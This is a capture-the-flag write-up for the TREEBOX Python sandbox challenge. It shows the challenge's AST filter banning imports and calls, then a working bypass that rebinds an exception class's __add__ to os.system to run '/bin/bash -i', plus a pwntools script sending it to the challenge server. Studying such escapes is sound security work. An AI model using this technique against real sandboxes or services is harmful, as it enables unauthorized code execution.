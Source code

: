 ## TREEBOX
### Attachment
```python
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```
### Description
This challenge belongs to the sandbox category, and uses python and takes arbitrary python script input from the client and verifies the program with the `verify_secure()` function.
```python
...snip...
def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True
...snip...
```
And here we need to pass this function to execute malicious python script to server, and we need to pass 3 walls:
- ast.Import
- ast.ImportFrom
- ast.Call
After some time I found [this](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-execution-without-calls) bypass in hacktricks to bypass `call ` and it worked!
```python
# Declare arbitrary exception class
class Klecko(Exception):
  def __add__(self,algo):
    return 1

# Change add function
Klecko.__add__ = os.system

# Generate an object of the class with a try/except + raise
try:__
  raise Klecko
except Klecko as k:
  k + "/bin/bash -i" #RCE abusing __add__
```
class `Klecko()` creates a function that `__add__` something and returns 1, but adds the function `os.system` instead, and triggers it with "try except" and appends "/bin/bash -i" to the function of that class have os.system in it? I assume this class is an intermediary between the os.system function and the string "/bin/bash -i" thus producing a function like `os.system('/bin/bash -i')` without calling the `os.system` function. 
### Python Solution
```python
import pwn

payload = '''# Declare arbitrary exception class
class Klecko(Exception):
  def __add__(self,algo):
    return 1

# Change add function
Klecko.__add__ = os.system

# Generate an object of the class with a try/except + raise
try:
  raise Klecko
except Klecko as k:
  k + "/bin/bash -i" #RCE abusing __add__
--END'''
p = pwn.remote('treebox.2022.ctfcompetition.com', 1337)
p.recv(1024)
p.sendline(payload)
p.interactive()
```
I just added it to the payload and here we got the shell :)
### Reference
- https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-execution-without-calls
